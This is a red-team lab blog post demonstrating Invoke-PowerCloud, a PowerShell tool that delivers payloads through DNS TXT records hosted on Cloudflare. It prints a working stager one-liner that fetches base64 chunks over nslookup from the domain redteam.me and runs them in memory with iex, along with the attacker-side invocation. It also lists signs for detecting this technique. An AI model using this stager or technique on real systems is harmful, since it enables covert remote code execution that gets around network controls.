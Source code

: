 ```yaml
---
layout: post
title: "payload delivery via dns using invoke powercloud"
date: 2024-06-18
categories: exfiltration
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /exfiltration/
---
```


---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---

# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell ([@domchell](https://twitter.com/domchell)) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you have not done it yet.

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS. \
\
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file and base64 encode it
* Divide the payload into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with authoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the Invoke-PowerCloud as follows:&#x20;

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-11-03.png>)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-14-53.png>)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```
host -t ns redteam.me
```

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-16-20.png>)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-47-26.png>)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-47-12.png>)

### Animated Demo

Everything in action can be seen in the below gif:

![](../../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs (mix and match) that may qualify the host behaviour as `suspicious` and warrant a further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` (trivial to change/randomize)
* DNS answers are all `TTL = 120` (trivial to change/randomize)
* TXT data in DNS answer has no white spaces (easy to change)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](<../../.gitbook/assets/Screenshot from 2018-10-16 20-12-57.png>)

Spike of `nslookup` for a host in a short amount of time:

![](<../../.gitbook/assets/Screenshot from 2018-10-16 20-17-42.png>)

Below is a sample PCAP for your inspection:

{% file src="../../.gitbook/assets/dns-packets.pcapng" %}
DNS Traffic Packet Trace
{% endfile %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}
@spotheplanet
